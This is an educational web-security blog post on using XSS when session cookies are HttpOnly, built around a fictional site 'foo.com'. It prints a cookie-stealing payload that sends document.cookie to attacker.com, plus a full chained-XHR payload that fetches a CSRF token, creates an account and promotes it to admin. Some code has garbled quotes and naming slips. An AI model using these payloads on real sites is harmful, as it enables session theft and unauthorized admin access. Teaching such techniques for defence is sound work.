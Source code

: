 Leveraging HttpOnly Cookies via XSS Exploitation with XHR Response Chaining
Introduction
In this blog post we will be discussing basic and practical Cross-Site Scripting (XSS) exploitation as well as discussing ways to leverage XSS despite the presence of the HttpOnly attribute on sensitive cookies.

 

Background
The classic Cross-Site Scripting (XSS) exploit payload uses JavaScript to send the victim’s session cookie to an attack machine. Here is one way of doing that:

 

document.write('<img src=”https://attacker.com/?cookie=' + document.cookie + ‘“ />');
 

However, modern web applications often employ the “HttpOnly” attribute on sensitive cookies, which prevents JavaScript from accessing the cookies. This effectively blocks the classic XSS attack.

 

Example Application
 

Let’s examine the fictional application “foo.com”. Logging into the application looks like the following:

 

[*] Request to login with username and password:

 
```
POST /login HTTP/1.1
Host: foo.com
Content-Type: application/json; charset=utf-8
Content-Length: 37
{"user":"support", "pass":"P@ssw0rd"}
 

[*] Response setting a session cookie with “HttpOnly” set:

 

HTTP/1.1 200 OK
Set-Cookie: session=FFsYXrBxbw-0zlcQKZXLMxdwuDWhl8U0vAY7WrKXZV4K; HttpOnly
Content-Length: 0
 

Even though the session cookie cannot be accessed via JavaScript because the “HttpOnly” flag is set, the cookie is still sent with requests destined for “foo.com”. This means that JavaScript can be used to perform authenticated requests. For example, the following code will make an authenticated GET request to “http://foo.com/” : such as django

 

var req = new XmlHttpRequest();
req.open("GET", “http://foo.com/”, true);
req.withCredentials = true;
req.send(null);
``` 

Using this well-known technique, XSS can be used to exfiltrate the response body of an authenticated request. But, what if we want to perform state-changing actions like adding a new user?

 

Secure web applications will utilize Cross-Site Request Forgery (CSRF) tokens for state-changing requests. An example implementation is for the server to create a strong, random CSRF token that is attached to the user’s session and to a specific request. Before a state-change request is made, the browser requests a CSRF token and uses it as a custom header in the subsequent state-changing request:

 

[*] Request to retrieve CSRF token:

 
GET /csrf HTTP/1.1
Host: foo.com
Cookie: session=FFsYXrBxbw-0zlcQKZXLMxdwuDWhl8U0vAY7WrKXZV4K
 

[*] Response returns CSRF token inside other text:

 

HTTP/1.1 200 OK
Content-Type: text/plain
Content-Length: 85
OK:CSRF:FE0158830904EB86536AC1152B84A0592E239B3698DA4BAD253CEEC1F8273BC7::14433333789
 

Once the CSRF token is retrieved a new user is created like so:

 

[*] Request to create a new user (requires session and CSRF tokens):

 

POST /user HTTP/1.1
Host: foo.com
Cookie: session=FFsYXrBxbw-0zlcQKZXLMxdwuDWhl8U0vAY7WrKXZV4K
X-CSRF: FE0158830904EB86536AC1152B84A0592E239B3698DA4BAD253CEEC1F8273BC7
Content-Type: application/json; charset=utf-8
Content-Length: 43
{"id":"siteadmin", "email":"sa@bar.com"}
 

[*] Response returns the UUID of created user:

 

HTTP/1.1 201 Created
Content-Type: application/json; charset=utf-8
Content-Length: 47
{"uuid":"a918ce10-36c0-11e9-b210-d663bd873d93"}
 

To complicate things further, “foo.com” creates all new users with low privileges. But, naturally, we want our new user to be an administrative user. To promote a new user to an administrator, another request must be made that requires the session token, CSRF token, and user UUID:

 

[*] Request to add a user to “admins” role:

 

PUT /user HTTP/1.1
Host: foo.com
Cookie: id=FFsYXrBxbw-0zlcQKZXLMxdwuDWhl8U0vAY7WrKXZV4K
X-CSRF: FE0158830904EB86536AC1152B84A0592E239B3698DA4BAD253CEEC1F8273BC7
Content-Type: application/json; charset=utf-8
Content-Length: 71
{"uuid":"a918ce10-36c0-11e9-b210-d663bd873d93", "role":"admins"}
 

[*] Response indicates user successfully added to “admins” role:

 

HTTP/1.1 200 OK
Content-Length: 0
 

In this situation, using XSS to add an administrative user would require three separate requests, which the last two depending on the output of the request before it.

 

Exploitation
 

Here is annotated JavaScript code that could be used as an XSS payload against “foo.com” to create a new administrative user (assuming the victim session has the proper permissions to do so):

 
```
try {
  var site = "http://foo.com";
  
  // Create an XHR object for each request
  var csrf = new XMLHttpRequest();
  var user = new XMLHttpRequest(); 
  var role = new XMLHttpRequest();
  
  /* Get the CSRF token */
  csrf.open("GET", site + "/csrf", true);  
  csrf.onreadystatechange = function () {
    if (csrf.readyState == 4 && csrf.status == 200) {
      // This branch runs if the response is returned with a 200 status code      
      // Split the response text (remember the CSRF token is included with other text in the response)
      var matches = csrf.responseText.split(":");
      // Now the "matches" array contains the following:
      // ["OK", "CSRF", "FE0158830904EB86536AC1152B84A0592E239B3698DA4BAD253CEEC1F8273BC7", "", "14433333789"]
      
      // The token is at index 2
      csrfToken = matches[2];
      
      /* Use the CSRF token to create a new user */
      user.open("POST", site + "/user", true);
      // Set custom CSRF header and Content-Type
      user.setRequestHeader("X-CSRF", csrfToken);
      user.setRequestHeader("Content-Type", "application/json; charset=utf-8");
      // Send any cookies associated with "foo.com" along with the request
      user.withCredentials = true;
      user.onreadystatechange = function () {
        if (user.readyState == 4 && user.status == 201) {
          // 201 status code
          
          // Extract the UUID from the response
          var uuid = JSON.parse(user.responseText).uuid;
          
          /* Use the UUID to add the new user to the "admins" role */
          role.open("PUT", site + "/user", true);
          role.setRequestHeader("X-CSRF", csrfToken);
          role.setRequestHeader("Content-Type", "application/json; charset=utf-8");
          role.withCredentials = true;
          // Send the role changing request
          role.send("{\"uuid\":\"" + uuid + "\", \"role\":\"admins\"}");
        }
      };
      // Send the user creation request
      user.send("{\"id\":\"attacker\", \"email\":\"attacker@example.com\"}");
    }
  };
  // Send the CSRF retrieval request
  csrf.send(null);
} catch (e) { }
```
                     
Summary
In this blog post, we have shown that simply marking a cookie as “HttpOnly” does not stop an attacker from leveraging that authentication cookie. An attacker can leverage authentication cookies via an XSS attack by simply creating requests in the victim’s browser and sending them to the web application to perform actions as the victim user because the requests will contain the authentication cookie.

Marking authentication cookies as “HttpOnly” is no substitute for good input filtering or using software libraries that handle such security requirements for you.
